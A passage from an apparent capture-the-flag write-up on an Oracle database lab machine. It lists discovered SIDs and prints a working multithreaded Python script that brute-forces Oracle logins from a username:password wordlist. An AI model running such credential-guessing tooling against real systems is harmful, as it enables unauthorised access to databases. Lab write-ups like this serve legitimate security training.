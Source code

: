 So at this point we have four potential SIDs: ‘XE’, ‘XEXDB’, ‘PLSExtProc’, and ‘CLRExtProc’.

#### 3 - Guess / bruteforce user and pass

This was more challenging. I tried the odat and metasploit modules, but didn’t get any hits. What I didn’t know at the time was that that’s because the odat password list is in all caps.

So I wrote a brute force script in python, using threads, can go pretty quick:

```

#!/usr/bin/env python

import cx_Oracle
import sys
from multiprocessing import Pool

MAX_PROC = 50
host = "10.10.10.82"
sid = "XE"

def usage():
    print("{} [ip] [wordlist]".format(sys.argv[0]))
    print("  wordlist should be of the format [username]:[password]")
    sys.exit(1)

def scan(userpass):
    u, p = userpass.split(':')[:2]
    try:
        conn = cx_Oracle.connect('{user}/{pass_}@{ip}/{sid}'.format(user=u, pass_=p, ip=host, sid=sid))
        return u, p, True
    except cx_Oracle.DatabaseError:
        return u, p, False

def main(host, userpassfile, nprocs=MAX_PROC):
    with open(userpassfile, 'r') as f:
       userpass = f.read().rstrip().replace('\r','').split('\n')

    pool = Pool(processes=nprocs)

    for username, pass_, status in pool.imap_unordered(scan, [up for up in userpass]):
        if status:
            print("Found {} / {}\n\n".format(username, pass_))
        else:
            sys.stdout.write("\r {}/{}                               ".format(username, pass_))

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
    main(sys.argv[1], sys.argv[2])

```
